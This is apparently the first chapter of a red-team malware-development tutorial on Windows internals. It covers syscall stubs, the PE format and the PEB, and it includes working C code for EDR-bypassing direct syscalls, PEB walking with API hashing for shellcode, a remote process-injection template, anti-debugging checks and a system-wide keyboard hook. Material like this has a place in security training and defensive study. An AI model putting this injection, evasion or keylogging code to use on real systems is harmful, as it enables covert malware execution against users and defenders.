



## before any shellcode

Red team tooling on Windows runs on a specific stack of abstractions. Most tutorials skip to the interesting part: injecting shellcode, unhooking NTDLL, bypassing AMSI. They skip what those operations actually do at the CPU level.

That is a problem. You can copy-paste a process injection snippet without understanding why it works, but you cannot debug it when it breaks, adapt it when defenses change, or write anything original.

This is the floor. Kernel mode. User mode. How they communicate. What lives where. What the PE format is. How memory is organized. The Windows API hierarchy from Win32 down to `syscall`.

---

## ring 0 and ring 3

The x86/x64 architecture defines four privilege levels, "rings" numbered 0 through 3. Windows uses two of them:


- **Ring 3 (User Mode):** where your applications run. Restricted access to hardware, memory, and CPU instructions. An attempt to execute a privileged instruction raises `#GP` (General Protection Fault).
- **Ring 0 (Kernel Mode):** where the OS kernel, HAL, and device drivers run. Unrestricted. A bug here crashes the entire system.



When a user-mode application wants to do anything meaningful (allocate memory, create a process, open a file), it crosses the ring boundary via a system call. This transition is expensive relative to function calls and audited by EDRs.

---

## NT executive and the HAL


The **Hardware Abstraction Layer (HAL)** sits between the kernel and physical hardware. It abstracts platform-specific differences so the rest of the kernel can be hardware-agnostic.

The **NT Executive** is the upper layer of `ntoskrnl.exe`:

| Component | Responsibility |
|-----------|---------------|
| Object Manager | uniform naming and access control for kernel objects |
| Process Manager | process and thread creation, scheduling handoff |
| Virtual Memory Manager | page table management, working set trimming, mapped files |
| I/O Manager | device driver model, IRP dispatch |
| Security Reference Monitor | access checks, audit logging, privilege validation |
| Cache Manager | file system caching, mapped views |
| Configuration Manager | registry implementation |

These are components within `ntoskrnl.exe`, not separate DLLs.


---

## the syscall layer: NTDLL and Native API

`NTDLL.DLL` is the bridge between user mode and the kernel. Each NT function is a thin wrapper that loads a syscall number into `eax` and executes `syscall`:

```asm
; NtAllocateVirtualMemory stub in NTDLL (Windows 10 21H2)
mov r10, rcx          ; Windows syscall convention: r10 = rcx
mov eax, 0x18         ; System Service Number (SSN)
test byte [SharedUserData+0x308], 0x1
jne  KiFastSystemCall ; legacy path
syscall               ; cross the ring boundary
ret
```

The number in `eax` is the **System Service Number (SSN)**. These are not stable across Windows versions. `NtAllocateVirtualMemory` is `0x18` on Windows 10 21H2 and a different value on Windows 11 22H2.

### SharedUserData

`SharedUserData` is the user-mode alias for `_KUSER_SHARED_DATA`, a kernel structure mapped **read-only** at `0x7FFE0000` in every user-mode process on x64 Windows. The kernel keeps this page updated; ring-3 code can read it without a syscall. It holds frequently-polled data: tick count, system time, time zone bias, and the syscall mechanism selector at `+0x308` (the `SystemCall` field). The branch `jne KiFastSystemCall` switches to the `int 0x2e` path on VMs or old hardware that cannot use `syscall` in user mode. On native x64 this check is always false — the `syscall` instruction is mandatory in AMD64 — so the branch exists purely for backward compatibility.

```
0x7FFE0000   KUSER_SHARED_DATA base (read-only to ring 3)
+0x000  TickCountLowDeprecated  ULONG
+0x004  TickCountMultiplier     ULONG
+0x008  InterruptTime           KSYSTEM_TIME
+0x014  SystemTime              KSYSTEM_TIME
+0x02C  TimeZoneBias            KSYSTEM_TIME
+0x308  SystemCall              ULONG  (0 = syscall, 1 = int 0x2e)
```

Because it needs no syscall, shellcode and injected code use it for timing checks and to pick the call mechanism without touching NTDLL.

This matters for **direct syscalls**: calling `syscall` directly from your code without going through NTDLL, bypassing userland hooks placed by EDRs.

```c
// direct syscall stub (inline asm, simplified)
// EDR hooks in NTDLL are bypassed entirely
NTSTATUS NtAllocateVirtualMemory_syscall(
    HANDLE ProcessHandle,
    PVOID *BaseAddress,
    ULONG_PTR ZeroBits,
    PSIZE_T RegionSize,
    ULONG AllocationType,
    ULONG Protect
) {
    // SSN resolved at runtime via Hell's Gate or SysWhispers
    NTSTATUS status;
    __asm__ volatile (
        "mov r10, rcx\n"
        "mov eax, %1\n"
        "syscall\n"
        "mov %0, eax\n"
        : "=r"(status)
        : "r"(SSN_NtAllocateVirtualMemory)
        : "r10", "eax", "memory"
    );
    return status;
}
```

Tools that implement SSN resolution dynamically: `SysWhispers3`, `Hell's Gate`, `Halo's Gate` (handles patched stubs).

### How Hell's Gate and Halo's Gate resolve SSNs

**Hell's Gate** reads the SSN directly from the NTDLL stub bytes in memory. On an unhooked stub the sequence is:

```
0x4C 0x8B 0xD1   mov r10, rcx
0xB8 [4 bytes]   mov eax, <SSN>
```

The bytes at offset +4 are the SSN. This fails the moment an EDR hooks the stub, because the first bytes are overwritten with a `JMP` or `MOV + JMP`, wiping `0xB8`.

**Halo's Gate** handles patched stubs by looking at neighbors. NT syscall stubs are laid out sequentially in NTDLL's `.text` section with SSNs that increment by exactly 1 between adjacent exports in the sorted export table. If the target stub is patched, Halo's Gate inspects the stub immediately before or after it in the sorted export order:

```
NtWriteVirtualMemory  ->  SSN = target - 1
NtAllocateVirtualMemory  ->  SSN = (previous + 1)
NtReadVirtualMemory   ->  SSN = target + 1
```

It walks outward (±1, ±2, ...) until it finds an unhooked neighbor and adjusts the recovered SSN by the offset. This works as long as at least one neighbor in the table is unpatched — which is almost always true because EDRs hook only the functions they care about, not the entire table.

**SysWhispers3** automates both techniques and can embed the stub bytes directly into the shellcode or resolve at runtime, with support for EGG hunting (scanning for the `0xB8` pattern across the NTDLL `.text` range when the export table is unavailable).

---

## the Win32 API hierarchy




`CreateProcess()` in `kernel32.dll` calls `NtCreateProcess()` in `ntdll.dll`, which executes a syscall into the kernel. The kernel validates arguments, checks security, creates the process object, and returns NTSTATUS.


EDRs hook at the NTDLL layer (easiest, most stable). Direct syscalls bypass this. Kernel callbacks (`PsSetCreateProcessNotifyRoutine`, `ObRegisterCallbacks`) catch things that slip past NTDLL hooks.

---

## the PE format


Every executable, DLL, and driver on Windows uses the **Portable Executable** format.



Key fields in `IMAGE_OPTIONAL_HEADER64`:

```c
WORD   Magic;               // 0x20B = PE32+ (64-bit)
DWORD  AddressOfEntryPoint; // RVA of entry point
ULONGLONG ImageBase;        // preferred load address
DWORD  SectionAlignment;    // section alignment in memory
DWORD  FileAlignment;       // section alignment on disk
DWORD  SizeOfImage;         // total image size when mapped
IMAGE_DATA_DIRECTORY DataDirectory[16]; // imports, exports, TLS, relocations...
```

The **Import Address Table (IAT)** is populated by the loader when the PE is mapped. It holds the resolved addresses of all imported functions. IAT patching (replacing a function pointer with your own) is one of the simplest hooking techniques.

### Data directory index reference

`DataDirectory[16]` in the optional header maps to named entries by index (from `winnt.h`):

| Index | Constant | Contents |
|-------|----------|---------|
| 0 | `IMAGE_DIRECTORY_ENTRY_EXPORT` | Export table — function names, ordinals, RVAs |
| 1 | `IMAGE_DIRECTORY_ENTRY_IMPORT` | Import descriptor array — DLL names, IAT |
| 2 | `IMAGE_DIRECTORY_ENTRY_RESOURCE` | `.rsrc` section root |
| 3 | `IMAGE_DIRECTORY_ENTRY_EXCEPTION` | `.pdata` — RUNTIME_FUNCTION array for stack unwinding |
| 4 | `IMAGE_DIRECTORY_ENTRY_SECURITY` | Authenticode signature (file offset, not RVA) |
| 5 | `IMAGE_DIRECTORY_ENTRY_BASERELOC` | Base relocation blocks |
| 6 | `IMAGE_DIRECTORY_ENTRY_DEBUG` | Debug directory array |
| 9 | `IMAGE_DIRECTORY_ENTRY_TLS` | TLS directory (callbacks, static TLS slot) |
| 10 | `IMAGE_DIRECTORY_ENTRY_LOAD_CONFIG` | Load config — SEH table, CFG bitmap, stack cookie, CET |
| 12 | `IMAGE_DIRECTORY_ENTRY_IAT` | IAT range (used by loader to mark pages RO after binding) |
| 14 | `IMAGE_DIRECTORY_ENTRY_COM_DESCRIPTOR` | CLR/.NET metadata |

Entries 7, 8, 11, and 13 exist but are rarely populated in modern PE files. Security (index 4) uses a **file offset**, not an RVA — the only directory that does — because the Authenticode signature covers the mapped image and must be located before mapping.

Index 3 (exception directory) is critical for x64: it is the `RUNTIME_FUNCTION` array that tells the unwinder where each function's prologue, epilogue, and frame data are. Shellcode that does not register a `RUNTIME_FUNCTION` entry will cause the unwinder to abort when an exception crosses its frame, which is why many injectors either avoid exceptions entirely or register a synthetic unwind record.

### TLS callbacks: execution before entry point

The TLS directory (index 9) points to an `IMAGE_TLS_DIRECTORY64`:

```c
typedef struct _IMAGE_TLS_DIRECTORY64 {
    ULONGLONG StartAddressOfRawData;
    ULONGLONG EndAddressOfRawData;
    ULONGLONG AddressOfIndex;
    ULONGLONG AddressOfCallBacks;   // null-terminated array of PIMAGE_TLS_CALLBACK
    DWORD     SizeOfZeroFill;
    DWORD     Characteristics;
} IMAGE_TLS_DIRECTORY64;

typedef VOID (NTAPI *PIMAGE_TLS_CALLBACK)(PVOID DllHandle, DWORD Reason, PVOID Reserved);
```

`AddressOfCallBacks` is a null-terminated VA array. The loader calls every entry with `DLL_PROCESS_ATTACH` **before** jumping to `AddressOfEntryPoint`. This fires before `main()`, before any C runtime init, and before a debugger's initial breakpoint if the loader path is not instrumented. Malware uses TLS callbacks as an anti-debug or anti-analysis hook that runs before the expected execution start. Analysis tip: check `IMAGE_DIRECTORY_ENTRY_TLS` in `DataDirectory` before setting a breakpoint at OEP.

### parsing a PE header in C

```c
#include <windows.h>
#include <stdio.h>

void parse_pe(PVOID base) {
    PIMAGE_DOS_HEADER dos = (PIMAGE_DOS_HEADER)base;
    if (dos->e_magic != IMAGE_DOS_SIGNATURE) return;  // "MZ"

    PIMAGE_NT_HEADERS64 nt = (PIMAGE_NT_HEADERS64)(
        (PBYTE)base + dos->e_lfanew
    );
    if (nt->Signature != IMAGE_NT_SIGNATURE) return;  // "PE\0\0"

    printf("ImageBase:  0x%llx\n", nt->OptionalHeader.ImageBase);
    printf("EntryPoint: 0x%lx (RVA)\n", nt->OptionalHeader.AddressOfEntryPoint);
    printf("Sections:   %d\n", nt->FileHeader.NumberOfSections);

    PIMAGE_SECTION_HEADER sect = IMAGE_FIRST_SECTION(nt);
    for (int i = 0; i < nt->FileHeader.NumberOfSections; i++, sect++) {
        printf("  [%d] %-8s  RVA: 0x%08lx  Size: 0x%lx\n",
               i,
               sect->Name,
               sect->VirtualAddress,
               sect->Misc.VirtualSize);
    }
}

int main() {
    HMODULE h = GetModuleHandleA("kernel32.dll");
    parse_pe(h);
    return 0;
}
```

---

## process memory layout


A user-mode process on Windows x64 has a 128TB virtual address space:

```
0x0000000000001000   lowest valid user address
...
    [PE image]       the executable itself
    [heap]           grows upward from low addresses
    [mapped files]   DLLs, memory-mapped files
    [stack]          grows downward, default 1MB, max 8MB
...
0x00007FFFFFFFFFFF   highest user-mode address
0xFFFF800000000000   kernel space (inaccessible from ring 3)
```

The **Process Environment Block (PEB)** and **Thread Environment Block (TEB)** are critical structures. `gs:[0x60]` in 64-bit mode points to the TEB, which contains a pointer to the PEB.

Key PEB fields in x64 layout (offsets from `dt _PEB` in WinDbg, stable across Win10/Win11):

```
PEB (x64)
+0x000  InheritedAddressSpace     BOOLEAN
+0x001  ReadImageFileExecOptions  BOOLEAN
+0x002  BeingDebugged             BOOLEAN   ← debugger check #1
+0x003  BitField                  BOOLEAN   (includes ImageUsesLargePages, IsProtectedProcess, ...)
+0x008  Mutant                    HANDLE
+0x010  ImageBaseAddress          PVOID
+0x018  Ldr                       PPEB_LDR_DATA   ← module list root
+0x020  ProcessParameters         PRTL_USER_PROCESS_PARAMETERS
+0x028  SubSystemData             PVOID
+0x030  ProcessHeap               PVOID     ← heap Flags/ForceFlags differ under debugger
+0x0BC  NtGlobalFlag              ULONG     ← debugger check #2 (0x70 when debugger-created)
```

The three classic debugger-detection checks from PEB:

```c
// 1. BeingDebugged at PEB+0x2
PPEB peb = (PPEB)__readgsqword(0x60);   // TEB
peb = *(PPEB*)((PBYTE)peb + 0x60);      // PEB pointer in TEB is at TEB+0x60 on x64
// simpler: __readgsqword(0x60) gives TEB; PEB ptr is at TEB+0x60
PPEB peb2;
__asm__ volatile ("mov %%gs:0x60, %0" : "=r"(peb2));
if (peb2->BeingDebugged) { /* debugger attached */ }

// 2. NtGlobalFlag at PEB+0xBC
// 0x70 = FLG_HEAP_ENABLE_TAIL_CHECK | FLG_HEAP_ENABLE_FREE_CHECK | FLG_HEAP_VALIDATE_PARAMETERS
ULONG ntgf = *(ULONG*)((PBYTE)peb2 + 0xBC);
if ((ntgf & 0x70) == 0x70) { /* created under debugger */ }

// 3. ProcessHeap flags
PVOID heap = peb2->ProcessHeap;
ULONG flags      = *(ULONG*)((PBYTE)heap + 0x70);   // HEAP.Flags
ULONG forceflags = *(ULONG*)((PBYTE)heap + 0x74);   // HEAP.ForceFlags
// normal: Flags=2 ForceFlags=0; under debugger: Flags != 2 or ForceFlags != 0
```

The heap offsets (`+0x70`, `+0x74`) are for the x64 heap header and have remained stable across Windows 10 and 11. The `NtGlobalFlag` offset `0xBC` applies to the x64 PEB; on the 32-bit PEB inside WoW64 it is at `0x068`. Use `dt ntdll!_PEB` or `dt ntdll!_HEAP` in WinDbg to verify against the running target.

---

## PEB walking: resolve kernel32 without imports

Shellcode cannot use the IAT (it has no image base, no loader). The standard technique is to walk the PEB's module list and find `kernel32.dll` by hashing the name.

```c
#include <windows.h>
#include <winternl.h>
#include <stdio.h>

// djb2 hash of a wide string (module names are wide in the PEB)
DWORD hash_module_name(PWSTR name) {
    DWORD h = 5381;
    while (*name)
        h = ((h << 5) + h) + (DWORD)(*name++ | 0x20); // lowercase
    return h;
}

// find a loaded module by name hash
PVOID find_module(DWORD target_hash) {
    PPEB peb;
#ifdef _WIN64
    peb = (PPEB)__readgsqword(0x60);
#else
    peb = (PPEB)__readfsdword(0x30);
#endif

    PPEB_LDR_DATA ldr = peb->Ldr;
    PLIST_ENTRY head = &ldr->InMemoryOrderModuleList;
    PLIST_ENTRY cur  = head->Flink;

    while (cur != head) {
        PLDR_DATA_TABLE_ENTRY entry = CONTAINING_RECORD(
            cur,
            LDR_DATA_TABLE_ENTRY,
            InMemoryOrderLinks
        );

        if (entry->BaseDllName.Buffer) {
            DWORD h = hash_module_name(entry->BaseDllName.Buffer);
            if (h == target_hash) {
                return entry->DllBase;
            }
        }
        cur = cur->Flink;
    }
    return NULL;
}

// resolve an exported function by name hash
PVOID find_export(PVOID module_base, DWORD func_hash) {
    PIMAGE_DOS_HEADER dos = (PIMAGE_DOS_HEADER)module_base;
    PIMAGE_NT_HEADERS nt  = (PIMAGE_NT_HEADERS)(
        (PBYTE)module_base + dos->e_lfanew
    );

    DWORD export_rva = nt->OptionalHeader
        .DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT]
        .VirtualAddress;
    PIMAGE_EXPORT_DIRECTORY exports = (PIMAGE_EXPORT_DIRECTORY)(
        (PBYTE)module_base + export_rva
    );

    PDWORD  names    = (PDWORD) ((PBYTE)module_base + exports->AddressOfNames);
    PWORD   ordinals = (PWORD)  ((PBYTE)module_base + exports->AddressOfNameOrdinals);
    PDWORD  funcs    = (PDWORD) ((PBYTE)module_base + exports->AddressOfFunctions);

    for (DWORD i = 0; i < exports->NumberOfNames; i++) {
        PCHAR  name = (PCHAR)((PBYTE)module_base + names[i]);
        DWORD  h    = 5381;
        for (PCHAR c = name; *c; c++)
            h = ((h << 5) + h) + (DWORD)*c;

        if (h == func_hash) {
            return (PVOID)((PBYTE)module_base + funcs[ordinals[i]]);
        }
    }
    return NULL;
}

int main() {
    // kernel32.dll hash (djb2 of "kernel32.dll", lowercased)
    PVOID k32 = find_module(0x7040ee75);
    printf("kernel32.dll base: %p\n", k32);

    // VirtualAlloc hash
    PVOID va = find_export(k32, 0x382c0f97);
    printf("VirtualAlloc: %p\n", va);

    return 0;
}
```

To get the hash values for a specific function:

```c
// compute djb2 hash at compile time (or use a quick script)
DWORD djb2(const char *s) {
    DWORD h = 5381;
    while (*s)
        h = ((h << 5) + h) + (DWORD)*s++;
    return h;
}

// djb2("VirtualAlloc") = 0x382c0f97
// djb2("kernel32.dll") lowercased = 0x7040ee75
```

This technique works in position-independent shellcode because it has no hardcoded addresses. You can drop this into shellcode as-is (after converting to actual PIC shellcode), and it will resolve functions on any version of Windows as long as kernel32 is loaded.

---

## basic process injection skeleton

With PEB walking established, here is the minimal working injection template using standard Win32 APIs:

```c
#include <windows.h>
#include <stdio.h>

// calc.exe shellcode (x64, msfvenom -p windows/x64/exec CMD=calc.exe -f c)
unsigned char shellcode[] = {
    0x48, 0x31, 0xc9, 0x48, 0x81, 0xe9, 0xdd, 0xff, 0xff, 0xff,
    // ... full shellcode bytes
};
SIZE_T shellcode_len = sizeof(shellcode);

BOOL inject(DWORD pid) {
    HANDLE hProc = OpenProcess(
        PROCESS_ALL_ACCESS,
        FALSE,
        pid
    );
    if (!hProc) {
        printf("[-] OpenProcess failed: %lu\n", GetLastError());
        return FALSE;
    }

    // allocate RWX memory in target process
    PVOID remote_buf = VirtualAllocEx(
        hProc,
        NULL,
        shellcode_len,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE
    );
    if (!remote_buf) {
        printf("[-] VirtualAllocEx failed: %lu\n", GetLastError());
        CloseHandle(hProc);
        return FALSE;
    }

    // write shellcode
    SIZE_T written = 0;
    if (!WriteProcessMemory(hProc, remote_buf, shellcode, shellcode_len, &written)) {
        printf("[-] WriteProcessMemory failed: %lu\n", GetLastError());
        VirtualFreeEx(hProc, remote_buf, 0, MEM_RELEASE);
        CloseHandle(hProc);
        return FALSE;
    }

    // create remote thread at shellcode entry point
    HANDLE hThread = CreateRemoteThread(
        hProc,
        NULL,
        0,
        (LPTHREAD_START_ROUTINE)remote_buf,
        NULL,
        0,
        NULL
    );
    if (!hThread) {
        printf("[-] CreateRemoteThread failed: %lu\n", GetLastError());
        VirtualFreeEx(hProc, remote_buf, 0, MEM_RELEASE);
        CloseHandle(hProc);
        return FALSE;
    }

    printf("[+] thread created in PID %lu at %p\n", pid, remote_buf);
    WaitForSingleObject(hThread, 3000);
    CloseHandle(hThread);
    CloseHandle(hProc);
    return TRUE;
}

int main(int argc, char *argv[]) {
    if (argc < 2) {
        printf("usage: inject.exe <pid>\n");
        return 1;
    }
    DWORD pid = (DWORD)atoi(argv[1]);
    inject(pid);
    return 0;
}
```

Build:

```bash
x86_64-w64-mingw32-gcc inject.c -o inject.exe -lkernel32
```

Compile in a Windows environment:

```cmd
cl.exe inject.c /Fe:inject.exe
```

This is the baseline. EDRs will flag `PAGE_EXECUTE_READWRITE` allocation immediately. In practice you allocate `PAGE_READWRITE`, write the shellcode, then `VirtualProtectEx` to `PAGE_EXECUTE_READ`. You also replace `CreateRemoteThread` with `NtCreateThreadEx` or APC injection to avoid the obvious API pattern. But understand this before touching those variants.

---

## essential native API calls

```c
// memory operations
NtAllocateVirtualMemory(ProcessHandle, &BaseAddress, 0, &RegionSize,
                         MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
NtWriteVirtualMemory(ProcessHandle, BaseAddress, Buffer, Size, &BytesWritten);
NtProtectVirtualMemory(ProcessHandle, &BaseAddress, &RegionSize,
                        PAGE_EXECUTE_READ, &OldProtect);

// process and thread
NtOpenProcess(&ProcessHandle, PROCESS_ALL_ACCESS, &ObjAttr, &ClientId);
NtCreateThreadEx(&ThreadHandle, THREAD_ALL_ACCESS, NULL,
                  ProcessHandle, StartAddr, Param, 0, 0, 0, 0, NULL);

// information queries
NtQuerySystemInformation(SystemProcessInformation, Buffer, Size, &ReturnLength);
NtQueryInformationProcess(ProcessHandle, ProcessBasicInformation,
                           &PBI, sizeof(PBI), NULL);
```

NTSTATUS success is `0x00000000`. `NT_SUCCESS(status)` checks the high bit: any value with bit 31 clear is success or informational.

---

## Windows hooks: SetWindowsHookEx

```c
HHOOK hHook = SetWindowsHookEx(
    WH_KEYBOARD_LL,   // low-level keyboard hook, system-wide
    KeyboardProc,     // callback
    NULL,             // NULL for LL hooks (no DLL injection needed)
    0                 // 0 = all threads
);

LRESULT CALLBACK KeyboardProc(int nCode, WPARAM wParam, LPARAM lParam) {
    if (nCode == HC_ACTION) {
        PKBDLLHOOKSTRUCT kb = (PKBDLLHOOKSTRUCT)lParam;
        printf("key: %lu\n", kb->vkCode);
    }
    return CallNextHookEx(hHook, nCode, wParam, lParam);
}
```

For `WH_KEYBOARD_LL` and `WH_MOUSE_LL`, the callback runs in your process thread (no DLL injection). For other hook types (`WH_KEYBOARD`, `WH_CBT`), Windows injects your DLL into every relevant process.

---

## vectored exception handling

VEH registers a handler called before any frame-based SEH. Used for debugger detection, hardware breakpoint monitoring, and anti-analysis.

```c
PVOID hVeh = AddVectoredExceptionHandler(1, VehHandler);

LONG WINAPI VehHandler(PEXCEPTION_POINTERS ex) {
    switch (ex->ExceptionRecord->ExceptionCode) {
        case STATUS_SINGLE_STEP:
            // hardware breakpoint hit (DR0-DR3)
            printf("[!] hardware breakpoint at %p\n",
                   ex->ExceptionRecord->ExceptionAddress);
            return EXCEPTION_CONTINUE_EXECUTION;

        case STATUS_ACCESS_VIOLATION:
            return EXCEPTION_CONTINUE_SEARCH;

        default:
            return EXCEPTION_CONTINUE_SEARCH;
    }
}
```

To detect hardware breakpoints:

```c
CONTEXT ctx = { .ContextFlags = CONTEXT_DEBUG_REGISTERS };
GetThreadContext(GetCurrentThread(), &ctx);
if (ctx.Dr0 || ctx.Dr1 || ctx.Dr2 || ctx.Dr3) {
    // breakpoint registers in use, likely debugger attached
}
```

---

## what's next

Chapter 2: shellcode development. Position-independent code, PEB walking as actual shellcode (not C), API hashing, encoding and encryption, stager patterns.

Chapter 3: process injection variants. APC injection, `NtMapViewOfSection` + threadless execution, module stomping, process hollowing.

Build the understanding first. The shellcode makes sense once you know what it is doing and why.

---

## references

- [Windows Internals, 7th Ed by Yosifovich, Ionescu, Russinovich](https://www.microsoftpressstore.com/store/windows-internals-part-1-system-architecture-processes-9780735684188)
- [MSDN: Windows Data Types](https://docs.microsoft.com/en-us/windows/win32/winprog/windows-data-types)
- [SysWhispers3](https://github.com/klezVirus/SysWhispers3)
- [Hell's Gate: direct syscall SSN resolution](https://github.com/am0nsec/HellsGate)
- [PEB structure (undocumented)](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/inc/api/pebteb/peb/index.htm)
- [maldev.academy](https://maldev.academy)
